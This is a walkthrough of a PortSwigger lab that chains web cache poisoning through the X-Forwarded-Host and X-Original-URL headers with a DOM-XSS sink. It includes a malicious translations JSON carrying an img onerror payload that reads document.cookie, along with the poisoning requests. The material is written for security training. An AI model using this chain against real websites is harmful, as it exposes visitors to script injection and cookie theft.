 # Combining web cache poisoning vulnerabilities

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities) is susceptible to web cache poisoning, but only if you construct a complex exploit chain. A user visits the home page roughly once a minute and their language is set to English. 

## Reproduction

1. With Burp running, load the website's home page.
2. Use [Param Miner](https://portswigger.net/web-security/web-cache-poisoning#param-miner) to identify that the `X-Forwarded-Host` and `X-Original-URL` headers are supported.

![Web cache poisoning](../../_static/images/cache17.png)

![Web cache poisoning](../../_static/images/cache18.png)

3. In Burp Repeater, experiment with the `X-Forwarded-Host` header. It can be used to import an arbitrary JSON file instead of the `translations.json` file, which contains translations of UI texts.

![Web cache poisoning](../../_static/images/cache19.png)

4. The website is vulnerable to DOM-XSS due to the way the `initTranslations()` function handles data from the JSON file for all languages except English:

![Web cache poisoning](../../_static/images/cache20.png)

```text
function initTranslations(jsonUrl)
{
    const lang = document.cookie.split(';')
        .map(c => c.trim().split('='))
        .filter(p => p[0] === 'lang')
        .map(p => p[1])
        .find(() => true);

    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name;
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }

            lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
        });
}
```

5. Go to the exploit server and edit the file name to match the path used by the vulnerable website: `/resources/json/translations.json`. 
6. In the head, add the header `Access-Control-Allow-Origin: *` to enable CORS.
7. In the body, add malicious JSON that matches the structure used by the real translation file. Replace the value of one of the translations with a suitable XSS payload, for example:

```text
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "</a><img src=1 onerror='alert(document.cookie)' />",
            "Description:": "Descripción"
        }
    }
}
```

![Web cache poisoning](../../_static/images/cache22.png)

8. **Store** the exploit.
9. In Burp, find a `GET` request for `/?localized=1` that includes the `lang` cookie for Spanish:
    `lang=es`

![Web cache poisoning](../../_static/images/cache23.png)

![Web cache poisoning](../../_static/images/cache24.png)

10. Send the request to Burp Repeater. Add a cache buster like `?cb=1234` and the `X-Forwarded-Host` header with the exploit server ID: `X-Forwarded-Host: exploit-server-id.exploit-server.net`. 
11. Send and confirm that the exploit server is reflected in the response.

![Web cache poisoning](../../_static/images/cache25.png)

12. To simulate the victim, load the URL in the browser and confirm that the `alert()` fires.
13. The cache for the Spanish page is poisoned, but the target user's language is set to English. It is not possible to exploit users with their language set to English, so a way to forcibly change language is needed.
14. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. When changing the language on the page to anything other than English, this triggers a redirect, for example, to `/setlang/es`. The user's selected language is set server side using the `lang=es` cookie, and the home page is reloaded with the parameter `?localized=1`.
15. Send the `GET` request for the home page to Burp Repeater and add a cache buster.
16. The `X-Original-URL` can be used to change the path of the request to explicitly set `/setlang/es`. This response cannot be cached because it contains the `Set-Cookie` header.
17. The home page sometimes uses backslashes as a folder separator. The server normalises these to forward slashes using a redirect. As a result, `X-Original-URL: /setlang\es` triggers a `302` response that redirects to `/setlang/es`. This `302` response is cacheable and can be used to force other users to the Spanish version of the home page.
18. Combine these two exploits. First, poison the `GET /?localized=1` page using the `X-Forwarded-Host` header to import the malicious JSON file from the exploit server.
19. And while the cache is still poisoned, poison the `GET /` page using `X-Original-URL: /setlang\es` to force all users to the Spanish page.
20. To simulate the victim, load the English page in the browser and make sure that you are redirected and that the `alert()` fires.
21. Replay both requests in sequence to keep the cache poisoned on both pages until the victim visits the site and the lab is solved.

## PoC

<iframe title="Combining web cache poisoning vulnerabilities" src="https://tube.spdns.org/videos/embed/f2c423a8-c7d1-4414-9a81-ef48e8c59310" allowfullscreen="" sandbox="allow-same-origin allow-scripts allow-popups" width="560" height="315" frameborder="0"></iframe>

----

## Exploitability

An attacker will need to poison the cache with multiple malicious responses simultaneously and coordinate this with the victim's browsing behaviour.  
